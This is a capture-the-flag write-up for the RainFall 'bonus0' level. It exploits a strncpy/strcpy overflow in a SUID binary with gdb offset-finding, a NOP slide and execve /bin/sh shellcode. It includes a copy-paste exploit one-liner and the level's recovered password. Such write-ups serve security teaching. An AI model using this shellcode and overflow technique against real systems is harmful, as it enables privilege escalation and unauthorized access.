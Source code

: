 # Level bonus 0

## Vulnerability

strcpy() heap overflow

## Context

We find a binary with owner ```bonus1``` and SUID.
```
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```
When run it seems to accept 2 seperate inputs on stdin, and print them with a space between.
```
bonus0@RainFall:~$ ./bonus0
 -
wait...
 -
what?
wait... what?
```

## Solution

Longer strings reveal the buffer overflow weakness.
```
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
```
Investigating with gdb we find main calls function ```pp```. ```pp``` calls function ```p``` twice, reading from stdin.

```p``` reads 4096 bytes into a buffer then uses ```strncpy()``` to return the first 20 bytes.
```strncpy()``` does not null terminate the string if the source is longer than destination.

Then when ```pp``` uses ```strcpy``` to copy the first string, without null termination it continues past the first string into the second.
This leads to us overflowing the main buffer, overwriting the EIP return address, and segfaulting.

Let's try to write our malicious code (which opens a shell) in the first string.
Then use the second string to overflow and write the address of our malicious code.

Using [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) we create our malicious code. ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

### Find EIP offset

Then we need to find the EIP offset where to write the address of our malicious code. Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 9.
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9...
Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
The buffer is 42 bytes (0x40 - 0x16), so we want to overwrite the return address at buffer[54].

### Find buffer address

To find the address of our malicious code
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) disas p
...
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax ; buffer address
...
(gdb) break *p+28
Breakpoint 1 at 0x80484d0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -

Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe640:	0x00000000
```
The buffer starts at ```0xbfffe640```. We will create a large NOP slide leading to our malicious code, so lets overwrite EIP wih an address somewhere on the NOP slide, let's say buffer + 100 ```0xbfffe6a4``` = "\xa4\xe6\xff\xbf".

### Build exploit strings

So we want to craft our first string:
1. A large NOP slide buffer leading to our malicious code - ```'\x90' * 3000```
2. our malicious shell code - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

And our second string:
1. A buffer until we reach EIP - ```'B' * 14```
2. Address on NOP slide leading to our malicious code - ```\xa4\xe6\xff\xbf```
3. buffer single byte - ```'B'```

Lets provide these two to the binary.
```
bonus0@RainFall:~$ (python -c "print('\x90' * 3000 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
 -
 -
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
Here is a handy one liner:
```
(python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
```

## Recreate Exploited Binary

As user ```bonus1```, in ```/tmp```, create and compile ```bonus0_source.c```
```
bonus1@RainFall:/tmp$ gcc bonus0_source.c -fno-stack-protector -z execstack -o bonus0_source
```
Edit permissions including suid, then move the binary to home directory.
```
bonus1@RainFall:/tmp$ chmod u+s bonus0_source; chmod +wx ~; mv bonus0_source ~
```
Exit back to user ```bonus0```, then pipe our exploit into the source. Luckily, p()'s buffer address is similar, so the return address doesn't need updating.
```
bonus1@RainFall:/tmp$ exit
exit
bonus0@RainFall:~$ (python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | /home/user/bonus1/bonus0_source
 -
 -
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
```


